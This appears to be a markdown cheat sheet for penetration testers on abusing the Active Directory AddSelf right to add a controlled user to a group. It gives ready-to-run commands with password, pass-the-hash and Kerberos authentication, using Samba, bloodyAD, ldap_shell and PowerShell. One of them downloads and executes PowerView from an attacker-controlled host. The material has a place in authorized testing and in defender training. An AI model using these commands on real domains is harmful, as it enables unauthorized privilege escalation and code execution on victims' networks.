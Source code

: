 # Abusing AddSelf

If an user have AddSelf over a group can add itself inside the group. This can be done with multiple tools.

### From Linux (enternally recomended):

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S '<dc-ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p '<password>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With KERBEROS auth:

Ldap_shell -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`ldap_shell '<domain>/<user>:<password>' -dc-host <machine.domain> -k`

`add_user_to_group <user> <group>`

BloodyAD -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<user>' -k --host <machine.domain> add groupMember '<group>' '<user to add in group>'`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`

<br>

### Articles:

https://www.hackingarticles.in/addself-active-directory-abuse/

https://bloodhound.specterops.io/resources/edges/add-self




